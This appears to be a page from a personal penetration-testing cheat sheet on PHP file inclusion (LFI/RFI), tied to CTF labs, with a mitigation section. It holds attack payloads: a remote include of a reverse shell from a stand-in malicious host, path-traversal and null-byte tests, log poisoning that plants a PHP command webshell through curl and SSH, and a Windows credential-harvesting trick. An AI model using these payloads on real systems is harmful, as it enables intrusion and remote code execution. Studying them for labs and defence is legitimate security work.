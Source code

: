 # File inclusion

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)

<div class="row row-cols-lg-2"><div>

A web application might import/include files based on data from the user. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the user input isn't properly sanitized, the user may be able to control which files are included, which may allow them:

* 🗺️ To read local or remote files
* 📚 To leverage a [SSRF](ssrf.md) attack <small>(port mapping, steal files, etc.)</small>
* 🐲 To execute code <small>(either uploaded code, remote code, or using logs)</small>

Code/data exposure may further compromise the infrastructure.
</div><div>

There are two categories of file inclusion:

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

<br>

Additional notes:

* 🤖 Not all include functions can execute code
* 📌 Template engines are more likely to contain LFI/RFI.
* 🐲 While LFI/RFI often involve HTTP, we can also use `ftp://`
* 🔑 Try `\\YOURIP\share\` RFI on Windows to [harvest credentials](/cybersecurity/red-team/_knowledge/topics/request_grabber.md)
* 😎 For RFI, try a local URLs first <small>(ex: `http://127.0.0.1:80/index.php`)</small>, as remote URLs may be blocked by a firewall
</div></div>

<hr class="sep-both">

## Basic Methodology

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI/RFI:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* ...

You might try to play around with the value to see if it works.

For a list of interesting files to read, aside from the website source code and configuration files, refer to [arbitrary file read](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md).
</div><div>

Assuming we have `page=about`.

* Test Path: `./about`
* Test Null-Byte: `./about.php%00`
* Test [Path Traversal](path_traversal.md): `../<folder name>/about`
* Test engine-specific payloads, such as `php://filter`
* Test Remote File Inclusion
* ...

⚠️ Refer the source code in priority to understand filtering <small>(if any)</small>.
</div></div>

<hr class="sep-both">

## PHP File Inclusion

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)
[![teamcw](../../../../_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)
[![directory_traversal](../../../../_badges/rootme/web_server/directory_traversal.svg)](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)
[![local_file_inclusion](../../../../_badges/rootme/web_server/local_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)
[![php_filters](../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![php_assert](../../../../_badges/rootme/web_server/php_assert.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
[![remote_file_inclusion](../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)
[![local_file_inclusion_double_encoding](../../../../_badges/rootme/web_server/local_file_inclusion_double_encoding.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)

<div class="row row-cols-lg-2"><div>

The URL `http://example.com/?lang=fr` associated with the code below is an example of a vulnerable PHP code.

```php!
include "lang/$_GET[lang].php" // It loads lang/fr.php
```

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png";
include "phar://<refer to php wrappers>";
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php";
include "data://<refer to php wrappers>";
```
</div><div>

💥 PHP `include`/`require` function executes PHP code.

⚔️ We can use [Path traversal](path_traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack or execute code.

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## Log Poisoning

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

Common logs and their location can be [found here](/cybersecurity/blue-team/topics/logs.md#common-log-files-locations).
</div></div>

<hr class="sep-both">

## File Inclusion Filter By-Pass

Refer to [Path Traversal Bypass filters](path_traversal.md#path-traversal-bypass-filters).

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If paths are allowed, refer to path traversal mitigation

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🛡️ In PHP, disable unused dangerous settings such as `allow_url_fopen` or `allow_url_include`.

* 📚 Use additional tools such as a WAF, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Second Order Attack (poisoned database entry)
* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.6k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div><div>
</div></div>